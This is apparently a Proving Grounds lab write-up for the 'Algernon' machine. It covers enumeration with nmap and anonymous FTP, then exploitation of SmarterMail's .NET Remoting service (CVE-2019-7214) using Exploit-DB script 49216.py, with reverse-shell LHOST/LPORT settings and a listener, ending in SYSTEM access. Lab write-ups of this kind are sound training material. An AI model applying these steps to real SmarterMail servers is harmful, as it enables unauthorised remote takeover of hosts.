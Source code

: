 # PG Algernon
## SmarterMail, .NET Remoting (TCP/17001)
## Nmap Scan
```
nmap -T4 -p- -A -oN scan.txt 192.168.x.x
```
## Service Enumeration
```
Looking at the nmap output, anonymous login appears to be enabled on this FTP server.
I test the login and download all the files using mget *.
```
## FTP
```
mget *
```
## SMB
```
No anonymous share enumeration, access denied.
```
## HTTP (TCP/80)
```
Looks like a default installation of Microsoft IIS web server.
I test for any files or directories using gobuster, but find nothing.
```
## HTTP (TCP/9998)
```
Looks like a web service called SmarterMail.
Check Exploit DB for any vulnerabilities matching this service name using searchsploit. 
Default credentials found using Google search do not work here.
Source code reveals a version number.
```
## .NET Remoting (TCP/17001)
```
.NET Remoting (TCP/17001)
Searching Google for information on this port, I see repeated mentions of remote code execution (RCE) coupled with SmarterMail.

    https://www.speedguide.net/port.php?port=17001
    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7214
    Confirm on Exploit DB: https://www.exploit-db.com/exploits/49216
```
##  Exploit
```
Using the exploit found using searchsploit I copy 49216.py to my current working directory.
Edit the exploit variables:

HOST='192.168.x.x'
PORT=17001
LHOST='192.168.x.x'
LPORT=80

Python
Start a TCP listener on port 80 and run the exploit.
python3 49216.py
```
##  Post-Exploitation
```
The SmarterMail service is being executed by the SYSTEM account, meaning I have fully compromised this host.
```


